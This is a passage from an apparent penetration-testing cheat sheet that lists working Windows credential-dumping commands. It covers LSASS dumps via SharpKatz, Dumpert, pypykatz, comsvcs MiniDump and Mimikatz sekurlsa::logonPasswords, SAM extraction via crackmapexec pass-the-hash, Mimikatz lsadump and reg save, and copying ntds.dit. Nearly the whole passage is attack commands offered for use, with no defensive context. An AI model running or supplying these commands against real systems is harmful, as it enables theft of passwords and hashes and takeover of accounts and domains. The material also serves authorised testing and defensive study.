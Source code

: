 #### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
```
SharpKatz.exe --Command ekeys
```

#### Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

#### Using pypykatz (Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```

#### Use task manager
- Find lsass process in details tab
- Right click and select create dump file

### Manually
```
Get-Process lsass
rundll32.exe C:\windows\System32\comsvc.dll, MiniDump <LSASS PROCESS ID> C:\Users\lsass.dmp full
mimikatz.exe
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## Dumping SAM
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

#### Manually
```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv

mimikatz.exe
mimikatz # lsadump::sam SamBkup.hiv SystemBkup.hiv
```

## Dumping ntds.dit
#### Copy SYSTEM and ntds.dit
```
Copy-Item C:\Windows\system32\config\SYSTEM <PATH>
Copy-Item C:\Windows\ntds\ntds.dit <PATH>
```
